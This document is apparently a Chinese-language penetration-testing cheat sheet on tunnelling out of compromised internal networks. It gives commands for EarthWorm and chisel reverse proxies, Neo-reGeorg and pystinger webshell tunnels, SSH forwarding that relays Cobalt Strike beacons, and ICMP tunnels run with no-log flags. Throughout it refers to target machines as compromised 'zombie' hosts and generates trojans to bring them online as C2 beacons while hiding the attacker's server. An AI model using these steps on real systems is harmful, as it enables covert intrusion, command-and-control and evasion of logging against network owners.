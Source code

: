 

[TOC]



# EarthWorm内网穿透

## 正向socks5服务器

当目标网络边界存在公网IP且可任意开监听端口 

```bash
./ew_linux_x64 -s ssocksd -l 1080
```

可在该目标机器上开启一个8888的正向连接，然后其他主机可通过SwitchyOmega设置socks5代理为目标主机ip:1080 ，添加这个代理就可以使用了

## 反向socks5服务器

### 服务器（外网vps）

```bash
./ew_linux_x64 -s rcsocks -l 1080 -e 5555
```

解释：把1080端口收到的请求转发给5555端口。

### 目标主机

通过CS把ew传到目标主机上，在指定目录输入命令`ew_win32.exe -s rssocks -d vpsip -e 5555`

```bash
shell C:\Users\admin\Downloads\ew\release\ew_win32.exe -s rssocks -d 192.168.211.129 -e 5555
```

解释：在目标主机启动服务，反弹到公网主机的5555端口。

通过SwitchyOmega设置socks5代理为vps的ip:1080挂上代理就成功了，可以访问内网了。

# chisel（http协议）

vps上执行

```bash
./chisel server -p 6666 -reverse
```

获取密钥，再到肉鸡上执行`chisel client -fingerprint 密钥 -v vps地址:端口 R:0.0.0.0:13389:127.0.0.1:肉鸡想映射的端口`

```cmd
C:\Users\root\Desktop\icmp代理>chisel.exe client -fingerprint DiGhDFpt5cE+hqJb+plMzB5HyJIKYXTKfXA2L75WWGU= -v 192.168.211.129:6666 R:0.0.0.0:13389:127.0.0.1:80
```

成功后，访问vps的13389端口就是肉鸡80端口

# Neo-reGeorg

生成有密码的webshell并上传到WEB服务器`python neoreg.py generate -k 密码`

```bash
python3 neoreg.py generate -k password
```

使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理`python neoreg.py -k 密码 -u http://肉鸡ip/tunnel.php`

```bash
python3 neoreg.py -k password -u http://192.168.211.140/tunnel.php
```

默认在本地1080端口，通过SwitchyOmega设置socks5代理为127.0.0.1:1080挂上代理，访问127.0.0.1就是web服务器（隧道只能本地访问）

# ssh转发

## 外网机器A`192.168.211.129`

修改`/etc/ssh/sshd_config `为`PasswordAuthentication yes`，生成公私钥后重启服务

```bash
root@kali:~/# vim /etc/ssh/sshd_config
root@kali:~/.ssh# ssh-keygen -t rsa
root@kali:~/.ssh# /etc/init.d/ssh restart
```

启动cs创建监听listener，HTTP Host是B机器ip，HTTP Host(stager)是A机器ip，端口8443，生成对应的木马

## 内网出网机器B`172.23.215.34`

将A机器生成的pub公钥文件的内容复制到B机器的`authorized_keys`中，赋予权限最后实现转发，后面的参数是为了连接稳定，最后通过`kill -9 678`结束进程

```bash
root@serverB:~/.ssh# ls
authorized_keys
root@serverB:~/.ssh# chmod 700 ~/.ssh
root@serverB:~/.ssh# chmod 600 ~/.ssh/authorized_keys
root@serverB:~/.ssh# ssh -fNL 172.23.215.34:49949:192.168.211.129:49949 root@192.168.211.129 –o StrictHostKeyChecking=no -o ExitOnForwardFailure=yes -o ServerAliveInterval=15 -o erverAliveCountMax=3
root@192.168.211.129's password: 
root@serverB:~/.ssh# ssh -fNL 172.23.215.34:8443:192.168.211.129:8443 root@192.168.211.129 –o StrictHostKeyChecking=no -o ExitOnForwardFailure=yes -o ServerAliveInterval=15 -o erverAliveCountMax=3
root@192.168.211.129's password: 
root@serverB:~/.ssh# netstat -ntlp | grep 172.23.215.34
tcp        0      0 172.23.215.34:8443      0.0.0.0:*               LISTEN      678/ssh
tcp        0      0 172.23.215.34:49949     0.0.0.0:*               LISTEN      680/ssh 
```

## 内网不出网C

执行生成的木马即可通过ssh隧道上线cs，A机器的ip地址不会暴露

```cmd
C:\Windows\system32>netstat -an
活动连接
  协议  本地地址          外部地址        状态
  TCP    192.168.211.140:49286  172.23.215.34:8443     CLOSE_WAIT
```

# 伪装成icmp出网

## 利用ew和pingtunnel

### 服务器（外网vps）

把10080端口收到的请求转发给8898端口。

```bash
./ew_for_linux -s rcsocks -l 10080 -e 8898
```

开启pingtunnel服务端

```bash
./pingtunnel -type server
```

### 目标主机

把ew、pingtunnel传到目标主机上，在指定目录输入命令，注意要先提权system

在目标主机启动pingtunnel服务，一定要加noprint nolog两个参数，否则会生成大量的日志文件`pingtunnel.exe -type client -l 127.0.0.1:9999 -s vps -t vps:8898 -sock5 -1 -noprint 1 -nolog 1`，如果客户端与服务器不能连接可以通过`sysctl -w net.ipv4.icmp_echo_ignore_all=1`关闭本地icmp应答

```cmd
C:\Users\root\Desktop\内网代理>pingtunnel.exe -type client -l 127.0.0.1:9999 -s 192.168.211.129 -t 192.168.211.129:8898 -sock5 -1 -noprint 1 -nolog 1
```

在目标主机启动ew服务

```cmd
C:\Users\root\Desktop\内网代理>ew_for_win_32.exe -s rssocks -d 127.0.0.1 -e 9999
```

通过SwitchyOmega设置socks5代理为vps的ip:10080挂上代理就成功了，可以访问内网了。

## 利用spp

### cs服务器（外网vps）

开启spp服务端

```bash
./spp -type server -proto ricmp -listen 0.0.0.0
```

### 目标主机

通过CS把spp.exe传到目标主机上，在指定目录输入命令

在目标主机启动spp服务，一定要加noprint nolog两个参数，否则会生成大量的日志文件`spp.exe -name "test" -type proxy_client -server vpsip -fromaddr :8082 -toaddr :8081 -proxyproto tcp -proto ricmp -nolog 1 -noprint 1`

```cmd
C:\Users\root\Desktop\内网代理>spp.exe -name "cs" -type proxy_client -server 192.168.211.129 -fromaddr :8082 -toaddr :8081 -proxyproto tcp -proto ricmp -nolog 1 -noprint 1
```

### cs设置监听

设置监听127.0.0.1:8082和vpsip:8081，生成对应ssp-127木马上线

# 伪装成http出网

Step1.肉鸡上开启pystinger服务端：

```cmd
C:\Users\root\Desktop\内网代理\dist>stinger_server.exe 0.0.0.0
```

Step2.上传webshell到肉鸡web目录：

Step3.vps上开启pystinger客户端：`./stinger_client -w http://肉鸡ip/proxy.php -l 127.0.0.1 -p 60000`

```bash
./stinger_client -w http://192.168.211.140/proxy.php -l 127.0.0.1 -p 60000
```

vps启动cs，cs连接

```bash
./teamserver vpsip 密码 ./malleable-c2-master/jquery-c2.4.3.profile
```

出网肉鸡：

监听都写127.0.0.1，端口60020，生成对应木马上线

不出网肉鸡：

监听都写肉鸡内网IP地址，端口60020，生成对应木马上线